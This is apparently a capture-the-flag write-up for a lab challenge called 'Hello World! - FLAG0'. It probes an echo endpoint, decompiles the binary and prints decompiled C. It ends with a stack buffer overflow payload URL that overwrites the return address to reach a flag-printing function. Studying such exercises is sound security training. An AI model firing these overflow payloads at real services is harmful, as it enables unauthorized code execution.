



# Hello World! - FLAG0

## 0x00 Index

The home page is looks like the following.


And it will print out hello xyz when you send whatever via a get request.

[http://127.0.0.1/xxxxxxxxxx/?stdin=world][1]


[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789][3]

When make the std in 40 bytes long, some wried paddings are showing up.



[http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890][4]

When add one more byte, the program crushed and showed core dump.



## 0x01 Decompile

It also has a [binary file](./vulnerable) availavle to download and analysis.

The binary file starts with something **ELF**. So may need to decompile it to take a look.

[snowman][2] is a pretty good decomplier for C/C++. Here I got the source [vulnerable.c](./vulnerable.c) here.

There is an important function just before pringing out the **FLAGS**.

```c
void print_flags() {
    int64_t rax1;
    int64_t rsi2;
    int64_t rdx3;
    void* rbp4;
    uint32_t eax5;
    unsigned char v6;
    int64_t rbp7;

    rax1 = fun_400550("FLAGS");
    fun_400560(rax1, rsi2, rdx3);
    fun_4005a0(0);
    rbp4 = reinterpret_cast<void*>(reinterpret_cast<int64_t>(__zero_stack_offset()) - 8 - 8 + 8 - 8 + 8 - 8 + 8 - 8);
    fun_400580(reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    read_all_stdin(reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    eax5 = v6;
    if (*reinterpret_cast<signed char*>(&eax5)) {
        fun_400570("Hello %s!\n", reinterpret_cast<int64_t>(rbp4) - 32, 32);
    } else {
        fun_400560("What is your name?", 0, 32);
    }
    goto rbp7;
}
```

So we need add up the padding to it goto print the **FLAGS** at 0406ee

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00][5]

And here we get the flag.




[1]: http://127.0.0.1/xxxxxxxxxx/?stdin=world
[2]: https://github.com/yegord/snowman
[3]: http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789
[4]: http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890
[5]: http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00